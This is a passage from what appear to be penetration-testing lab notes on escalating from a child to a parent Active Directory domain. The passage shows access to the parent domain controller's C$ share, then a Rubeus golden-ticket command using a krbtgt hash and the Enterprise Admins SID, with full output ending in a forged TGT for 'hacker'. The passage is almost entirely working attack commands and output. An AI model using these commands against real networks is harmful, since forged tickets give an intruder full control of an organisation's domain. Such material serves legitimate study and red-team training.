 Now can access the DC of the parent domain:

```bash
PS C:\tools> ls \\academy-ea-dc01.inlanefreight.local\c$
 Volume in drive \\academy-ea-dc01.inlanefreight.local\c$ has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\academy-ea-dc01.inlanefreight.local\c$

09/15/2018  12:19 AM    <DIR>          PerfLogs
10/06/2021  01:50 PM    <DIR>          Program Files
09/15/2018  02:06 AM    <DIR>          Program Files (x86)
11/19/2021  12:17 PM    <DIR>          Shares
10/06/2021  10:31 AM    <DIR>          Users
03/21/2022  12:18 PM    <DIR>          Windows
               0 File(s)              0 bytes
               6 Dir(s)  18,080,178,176 bytes free
```

This can also be done using `Rubeus`

```bash
.\Rubeus.exe golden /rc4:<krbtgt_NTLM_hash> /domain:<Our_current_child_domain> /sid:<sid_of_child_domain> /sids:<sid_of_enterprise_admins_group> /user:hacker /ptt
```

Example:

```bash
.\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : LOGISTICS.INLANEFREIGHT.LOCAL (LOGISTICS)
[*] SID            : S-1-5-21-2806153819-209893948-922872689
[*] UserId         : 500
[*] Groups         : 520,512,513,519,518
[*] ExtraSIDs      : S-1-5-21-3842939050-3880317879-2865463114-519
[*] ServiceKey     : 9D765B482771505CBE97411065964D5F
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_MD5
[*] KDCKey         : 9D765B482771505CBE97411065964D5F
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_MD5
[*] Service        : krbtgt
[*] Target         : LOGISTICS.INLANEFREIGHT.LOCAL

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'hacker@LOGISTICS.INLANEFREIGHT.LOCAL'

[*] AuthTime       : 3/29/2022 10:06:41 AM
[*] StartTime      : 3/29/2022 10:06:41 AM
```